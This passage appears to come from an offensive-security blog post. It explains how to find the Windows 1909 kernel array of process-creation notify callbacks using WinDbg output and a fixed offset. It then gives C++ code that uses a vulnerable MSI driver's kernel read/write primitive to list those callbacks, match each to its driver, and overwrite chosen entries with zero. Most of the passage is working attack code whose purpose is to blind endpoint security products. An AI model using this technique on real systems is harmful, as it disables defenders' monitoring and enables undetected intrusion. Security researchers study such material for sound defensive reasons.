 Now, let's calculate our offsets for Windows 1909 for the callback array of `PspCreateProcessNotifyRoutine`:

```
lkd> dq nt!pspcreateprocessnotifyroutine
fffff802`23305ea0  ffffaa88`6946151f ffffaa88`696faa8f
fffff802`23305eb0  ffffaa88`6c607e4f ffffaa88`6c60832f
fffff802`23305ec0  ffffaa88`6c6083ef ffffaa88`6c60f4ff
fffff802`23305ed0  ffffaa88`6c60fdcf ffffaa88`6c6106ff
fffff802`23305ee0  ffffaa88`732701cf ffffaa88`7327130f
fffff802`23305ef0  ffffaa88`771818af ffffaa88`7cb3b1bf
fffff802`23305f00  00000000`00000000 00000000`00000000
fffff802`23305f10  00000000`00000000 00000000`00000000
lkd> dq nt!pssetcreateprocessnotifyroutine L1
fffff802`235536b0  d233c28a`28ec8348
```
It looks like the callback array lives at `PsSetCreateProcessNotifyRoutine + 0x24D810` in this version of Windows.

Now, let's use our memory read functionality so kindly provided by the MSI driver and the author of the driver exploit, to retrieve and list these callback routines. We also add functionality to specify a callback function to be removed:
```c++
const DWORD64 PspCreateProcessNotifyRoutineAddress = PsSetCreateProcessNotifyRoutineAddress - 0x24D810;
Log("[+] PspCreateProcessNotifyRoutine: %p", PspCreateProcessNotifyRoutineAddress);
Log("[+] Enumerating process creation callbacks");
int i = 0;
for (i; i < 64; i++) {
    DWORD64 callback = ReadMemoryDWORD64(Device, PspCreateProcessNotifyRoutineAddress + (i * 8));
    if (callback != NULL) {//only print actual callbacks
        callback =(callback &= ~(1ULL << 3)+0x1);//remove last 4 bytes, jmp over first 8
        DWORD64 cbFunction = ReadMemoryDWORD64(Device, callback);
        FindDriver(cbFunction);
        if (cbFunction == remove) {//if the address specified to be removed from the array matches the one we just retrieved, remove it.
            Log("Removing callback to %p at address %p", cbFunction, PspCreateProcessNotifyRoutineAddress + (i * 8));
            WriteMemoryDWORD64(Device, PspCreateProcessNotifyRoutineAddress + (i * 8),0x0000000000000000);
        }
    }

}
```
The FindDriver function took some more work and is probably the worst code in the whole repo, but it works... We basically use EnumDeviceDrivers again, iterate over the driver addresses, store the addresses that are lower than the callback function address and then find the smallest difference. Yeah, I know... I'm not going to include it here, feel free to check it out in the repo if you want to suffer.

Great - so now we have achieved the following:
1. We find the array in memory
2. We can list the addresses of the functions that will be notified
3. We can see exactly which drivers these functions live in
4. We can remove specific callbacks
